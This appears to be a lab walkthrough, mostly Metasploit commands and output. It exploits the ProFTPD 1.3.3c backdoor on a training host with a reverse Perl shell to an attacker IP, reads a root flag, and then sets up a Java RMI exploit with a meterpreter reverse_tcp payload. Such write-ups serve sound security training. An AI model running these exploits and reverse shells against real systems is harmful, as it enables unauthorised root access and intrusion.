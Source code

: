 `msfconsole -q`, `search proftpd`, `use exploit/unix/ftp/proftpd_133c_backdoor`, `show options`, `set RHOSTS demo.ine.local`, `set LHOST 192.10.68.2`, `show payloads`, `set PAYLOAD cmd/unix/reverse_perl`, `exploit -j`.

`sessions`, `sessions -i 1`.

`id`:
```
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```

`find / -type f -iname "flag*"`:
```
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/sys/kernel/sched_domain/cpu10/domain0/flags
/proc/sys/kernel/sched_domain/cpu11/domain0/flags
/proc/sys/kernel/sched_domain/cpu12/domain0/flags
/proc/sys/kernel/sched_domain/cpu13/domain0/flags
/proc/sys/kernel/sched_domain/cpu14/domain0/flags
/proc/sys/kernel/sched_domain/cpu15/domain0/flags
/proc/sys/kernel/sched_domain/cpu5/domain0/flags
/proc/sys/kernel/sched_domain/cpu6/domain0/flags
/proc/sys/kernel/sched_domain/cpu7/domain0/flags
/proc/sys/kernel/sched_domain/cpu8/domain0/flags
/proc/sys/kernel/sched_domain/cpu9/domain0/flags
/proc/kpageflags
/usr/include/x86_64-linux-gnu/bits/ss_flags.h
/usr/include/x86_64-linux-gnu/bits/waitflags.h
/usr/include/x86_64-linux-gnu/asm/processor-flags.h
/usr/include/linux/kernel-page-flags.h
/usr/include/linux/tty_flags.h
/usr/lib/x86_64-linux-gnu/perl/5.26.1/bits/ss_flags.ph
/usr/lib/x86_64-linux-gnu/perl/5.26.1/bits/waitflags.ph
/usr/share/perl5/Dpkg/BuildFlags.pm
/usr/share/dpkg/buildflags.mk
/usr/bin/dpkg-buildflags
/flag
```

`cat /flag`:
```
e071314bb6ad865506a214ccb1e081ea
```

**Step 6**.

`ip addr | grep "inet"`:
```
inet 127.0.0.1/8 scope host lo
inet 10.1.0.16/16 brd 10.1.255.255 scope global eth0
inet 192.10.68.2/24 brd 192.10.68.255 scope global eth1
```

`seach rmi registry`, `use exploit/multi/misc/java_rmi_server`, `show payloads`, `set PAYLOAD java/meterpreter/reverse_tcp`, `show options`, `set RHOSTS demo2.ine.local`, `set LHOST 192.10.68.2`, `exploit -j`.
